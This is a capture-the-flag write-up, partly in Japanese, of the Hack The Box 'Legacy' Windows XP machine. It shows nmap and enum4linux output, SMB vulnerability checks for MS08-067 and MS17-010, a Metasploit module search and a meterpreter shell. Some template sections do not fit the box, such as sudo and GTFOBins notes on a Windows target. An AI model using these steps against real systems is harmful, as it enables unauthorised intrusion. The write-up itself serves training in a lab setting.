

## 概要

| 項目 | 内容 |
|---------------------------|-------|
| OS | Windows |
| 難易度 | 記録なし |
| 攻撃対象 | 135/tcp   open     msrpc, 139/tcp   open     netbios-ssn, 445/tcp   open     microsoft-ds, 48672/tcp filtered unknown, 51735/tcp filtered unknown, 445/tcp open  microsoft-ds |
| 主な侵入経路 | windows-host, web attack path to foothold |
| 権限昇格経路 | Local misconfiguration or credential reuse to elevate privileges |

## 偵察

### 1. PortScan

---
## Rustscan

💡 なぜ有効か  
High-quality reconnaissance narrows a large attack surface into a few validated exploitation paths. Accurate service mapping prevents time loss and supports targeted follow-up testing.

## 初期足がかり

### Not implemented (or log not saved)

## Nmap
```bash
nmap -p- -sC -sV -T4 -A -Pn $ip
```

### 2. Local Shell

---

SMBv1 脆弱ホストであることが明確なので、MS08-067 / MS17-010 を優先検証して侵入口を絞ります。
公開 Exploit の選定時は OS バージョン一致を最優先し、失敗時はペイロードとターゲット値のみ最小変更で再試行します。
このボックスは初期侵入と同時に高権限到達しやすいため、フラグ回収前に証跡コマンドを残すと再現性が上がります。

### 実施コマンド（抜粋）
No additional commands saved.

### 実施ログ（統合）

初手ポートスキャン

```
✅[20:28][CPU:0][MEM:11][IP:dead:beef:2::101f][/home/n0z0]
🐉 > nmap -p- -sC -sV -T4 -A -Pn $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 20:37 JST
Warning: 10.129.108.52 giving up on port because retransmission cap hit (6).
Nmap scan report for 10.129.108.52
Host is up (0.24s latency).
Not shown: 65530 closed tcp ports (reset)
PORT      STATE    SERVICE      VERSION
135/tcp   open     msrpc        Microsoft Windows RPC
139/tcp   open     netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds Windows XP microsoft-ds
48672/tcp filtered unknown
51735/tcp filtered unknown
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=12/19%OT=135%CT=1%CU=38402%PV=Y%DS=2%DC=T%G=Y%TM=67
OS:64097A%P=x86_64-pc-linux-gnu)SEQ(SP=104%GCD=1%ISR=10A%TI=I%CI=I%TS=0)SEQ
OS:(SP=104%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS=0)OPS(O1=M53CNW0NNT00NNS%O2
OS:=M53CNW0NNT00NNS%O3=M53CNW0NNT00%O4=M53CNW0NNT00NNS%O5=M53CNW0NNT00NNS%O
OS:6=M53CNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W4=FAF0%W5=FAF0%W6=FAF0)ECN(R
OS:=Y%DF=Y%T=80%W=FAF0%O=M53CNW0NNS%CC=N%Q=)T1(R=Y%DF=Y%T=80%S=O%A=S+%F=AS%
OS:RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y
OS:%DF=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R
OS:%O=%RD=0%Q=)T7(R=N)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G%RID=G%RIPCK=G%RUC
OS:K=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:94:6c:80 (VMware)
| smb-os-discovery:
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2024-12-24T15:51:59+02:00
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h57m35s, deviation: 1h24m50s, median: 4d23h57m35s

TRACEROUTE (using port 53/tcp)
HOP RTT       ADDRESS
1   245.02 ms 10.10.14.1
2   245.19 ms 10.129.108.52

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 1009.47 seconds
```

SMBが開いてることが分かった

```
❌[20:38][CPU:0][MEM:10][IP:10.10.14.33][/home/n0z0]
🐉 > nmap --script smb-vuln* -p 445 $ip
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-12-19 20:38 JST
Nmap scan report for 10.129.108.52
Host is up (0.25s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms08-067:
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
| smb-vuln-ms17-010:
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|_      https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_smb-vuln-ms10-054: false

```

使えそうな脆弱性がありそう

何も見つかってない

```
✅[20:17][CPU:0][MEM:10][IP:dead:beef:2::101f][/home/n0z0]
🐉 > enum4linux -a $ip
Starting enum4linux v0.9.1 ( http://labs.portcullis.co.uk/application/enum4linux/ ) on Thu Dec 19 20:38:28 2024

 =========================================( Target Information )=========================================

Target ........... 10.129.108.52
RID Range ........ 500-550,1000-1050
Username ......... ''
Password ......... ''
Known Usernames .. administrator, guest, krbtgt, domain admins, root, bin, none

 ===========================( Enumerating Workgroup/Domain on 10.129.108.52 )===========================

[+] Got domain/workgroup name: HTB

 ===============================( Nbtstat Information for 10.129.108.52 )===============================

Looking up status of 10.129.108.52
        LEGACY          <00> -         B <ACTIVE>  Workstation Service
        LEGACY          <20> -         B <ACTIVE>  File Server Service
        HTB             <00> - <GROUP> B <ACTIVE>  Domain/Workgroup Name
        HTB             <1e> - <GROUP> B <ACTIVE>  Browser Service Elections

        MAC Address = 00-50-56-94-6C-80

 ===================================( Session Check on 10.129.108.52 )===================================

[+] Server 10.129.108.52 allows sessions using username '', password ''

 ================================( Getting domain SID for 10.129.108.52 )================================

do_cmd: Could not initialise lsarpc. Error was NT_STATUS_ACCESS_DENIED

[+] Can't determine if host is part of domain or part of a workgroup

 ==================================( OS information on 10.129.108.52 )==================================

[E] Can't get OS info with smbclient

[+] Got OS info for 10.129.108.52 from srvinfo:
do_cmd: Could not initialise srvsvc. Error was NT_STATUS_ACCESS_DENIED

 =======================================( Users on 10.129.108.52 )=======================================

[E] Couldn't find users using querydispinfo: NT_STATUS_ACCESS_DENIED

[E] Couldn't find users using enumdomusers: NT_STATUS_ACCESS_DENIED

 =================================( Share Enumeration on 10.129.108.52 )=================================

[E] Can't list shares: NT_STATUS_ACCESS_DENIED

[+] Attempting to map shares on 10.129.108.52

 ===========================( Password Policy Information for 10.129.108.52 )===========================

[E] Unexpected error from polenum:

[+] Attaching to 10.129.108.52 using a NULL share

[+] Trying protocol 139/SMB...

        [!] Protocol failed: Cannot request session (Called Name:10.129.108.52)

[+] Trying protocol 445/SMB...

        [!] Protocol failed: SMB SessionError: code: 0xc0000022 - STATUS_ACCESS_DENIED - {Access Denied} A process has requested access to an object but has not been granted those access rights.

[E] Failed to get password policy with rpcclient

 ======================================( Groups on 10.129.108.52 )======================================

[+] Getting builtin groups:

[+]  Getting builtin group memberships:

[+]  Getting local groups:

[+]  Getting local group memberships:

[+]  Getting domain groups:

[+]  Getting domain group memberships:

 ==================( Users on 10.129.108.52 via RID cycling (RIDS: 500-550,1000-1050) )==================

[E] Couldn't get SID: NT_STATUS_ACCESS_DENIED.  RID cycling not possible.

 ===============================( Getting printer info for 10.129.108.52 )===============================

No printers returned.

enum4linux complete on Thu Dec 19 20:39:01 2024
```

msfconsoleで検索すると使えそうなexploitが見つかる

```
[-] Unknown command: searchms08-067. Run the help command for more details.
msf6 > search ms08-067

Matching Modules
================

   #   Name                                                             Disclosure Date  Rank   Check  Description
   -   ----                                                             ---------------  ----   -----  -----------
   0   exploit/windows/smb/ms08_067_netapi                              2008-10-28       great  Yes    MS08-067 Microsoft Server Service Relative Path Stack Corruption
```

shellを読み込ませたらそのままフラグを手に入れられる

```
meterpreter > shell
Process 1160 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd c:\
```

```
meterpreter > shell
Process 1160 created.
Channel 1 created.
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32>cd c:\
```

💡 なぜ有効か  
Initial access succeeds when enumeration findings are turned into a practical exploit chain. Capturing credentials, file disclosure, or direct RCE creates reliable pivot points for privilege escalation.

## 権限昇格

### 3.Privilege Escalation

---

Extracting commands related to privilege escalation steps. Please add confirmation logs such as `whoami /all` and `sudo -l` as necessary.

```bash
msf6 > search ms08-067
```

💡 なぜ有効か  
Privilege escalation depends on chaining local weaknesses such as sudo misconfiguration, weak file permissions, or credential reuse. If a GTFOBins technique is used, the mechanism is that an allowed binary executes a child process or shell without dropping elevated effective privileges.

## 認証情報

```text
認証情報なし。
Initial access was achieved via SMB RCE path (MS08-067 / MS17-010 checks).
```

## まとめ・学んだこと

### 4.Overview

---



### CVE Notes

- **CVE-2008-4250**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.
- **CVE-2017-0143**: Publicly tracked vulnerability referenced in this writeup; verify affected versions and exploit prerequisites before use.

## 参考文献

- nmap
- rustscan
- metasploit
- sudo
- find
- CVE-2008-4250
- CVE-2017-0143
- GTFOBins
